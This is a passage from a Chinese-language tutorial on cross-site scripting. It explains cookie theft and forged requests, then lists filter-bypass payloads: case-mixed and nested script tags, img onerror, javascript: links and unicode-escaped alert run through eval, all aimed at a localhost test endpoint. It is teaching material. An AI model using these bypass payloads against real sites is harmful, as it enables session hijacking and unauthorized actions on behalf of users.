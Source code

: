 ### 盗取 cookie
JS 中可以通过 document.cookie 获取到当前⻚⾯的 cookie，攻击者注⼊恶意 Script 脚本可以盗取用户的 cookie。

在⽹站登录成功后服务端会返回给用户⼀个 cookie 值，这个 cookie 值是用户访问该⽹站其他⻚⾯的令牌， 如果这些重要的 cookie 被盗取，攻击者可以冒充用户，无需验证即可登录该⽹站。

### 恶意请求
CSRF 攻击就是在未经用户许可下冒充用户名义发送诸如更改密码、转账等恶意请求，通过 XSS 攻击在用户浏览器注⼊恶意脚本，可以实现在用户不知情下⾃动发送恶意请求。

## XSS 绕过过滤
下⾯总结⼀些 XSS 攻击绕过程序的过滤规则的⽅法。

### ⼤⼩写绕过
标签的⼤⼩写并不会影响其在浏览器中的解析执⾏，所以如果程序只是过滤了 `<script>` 标签的话，可以通过以下⽅式进⾏绕过：

```
http://127.0.0.1/api/xss/reflected/?query=<sCript>alert('reflected xss')</sCript>
```

### 过滤后返回的参数仍然构成脚本代码
如果程序只是过滤了⼀次 `<script>` 标签的话，可以制造巧合，让过滤了 `<script>` 标签后的返回参数仍然包含 `<script>` 标签，如下所⽰：

```
http://127.0.0.1/api/xss/reflected/?query=<sCri<script>pt>alert('reflected xss')</sCri</script>pt>
```

### 利⽤特殊的 HTML 标签和属性
能注⼊攻击脚本的并不只有 `<script>` 标签，⼀些特殊的 HTML 标签和属性也可以做到。

⽐如 `<img>` 标签，因为 src 指定的图⽚地址是乱写的，根本不存在，所以 onerror 的脚本代码肯定会被执⾏。

```
http://127.0.0.1/api/xss/reflected/?query=<img src="123" onerror="alert('reflected xss')">
```

再如 `<a>` 标签的 href 属性，用户点击 `<a>` 标签将会执⾏脚本代码。

```html
{% raw %}
<a href="{{ redirect }}">链接</a>
{% endraw %}
```

```
http://127.0.0.1/api/xss/reflected/?redirect=javascript:alert('reflected xss')
```

### 对脚本代码关键字进⾏编码
程序可能会对脚本代码中的关键字（⽐如 alert）进⾏过滤，这时我们可以对关键字进⾏编码，再通过 eval 函数解码得以让浏览器成功解析：

```
http://127.0.0.1/api/xss/reflected/?query=<script>eval(\u0061\u006c\u0065\u0072\u0074('reflected xss'))</script>
```

### 闭合引号实现注⼊
如果⽹⻚中存在有如下代码，url 参数直接被变量引⽤：
